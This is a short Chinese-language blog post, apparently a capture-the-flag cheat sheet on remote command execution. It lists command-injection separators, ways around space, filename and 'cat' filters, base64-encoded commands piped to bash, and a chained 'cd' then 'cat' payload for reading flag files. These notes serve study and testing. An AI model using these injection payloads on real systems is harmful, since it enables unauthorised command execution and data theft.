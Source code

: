 ```yaml
---
layout: post
title: 远程命令执行
subtitle: RCE
date: 2024-08-12 17:38
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
number headings: 
published: true
---
```

## 1. RCE 漏洞利用

### 1.1. 命令连接符

- `;`
- `|`、`||`
- `&`、`%26`、`&&`、`%26%26`
- `%0a`

### 1.2. 空格过滤绕过

- `${IFS}`、`$IFS`、`$IFS$9`
- `<` 、`>`、`<>`
- `%09`：相当于 `Tab`
- `{,}`：`{cat,flag.php}`

### 1.3. 文件名过滤绕过

- `??`：`cat flag??`
- `*`：`cat flag.*`
- 单引号、双引号：`cat fl""ag.p'h'p`
- `\`：`cat fl\ag.p\hp`

### 1.4. base64 编码绕过

```shell
# cat flag.php ==base64==> Y2F0IGZsYWcucGhw
echo Y2F0IGZsYWcucGhw | base64 -d | bash
$(echo Y2F0IGZsYWcucGhw | base64 -d)
`echo Y2F0IGZsYWcucGhw | base64 -d`
```

### 1.5. `cat` 命令过滤绕过

- `tac`
- `head`、`tail`
- `more`、`less`

### 1.6. 目录分隔符过滤绕过

**flag 在上级目录情况**

多个命令执行：先 cd 到上级目录再 cat 内容

```shell
;cd flag_is_here;cat flag.txt
```
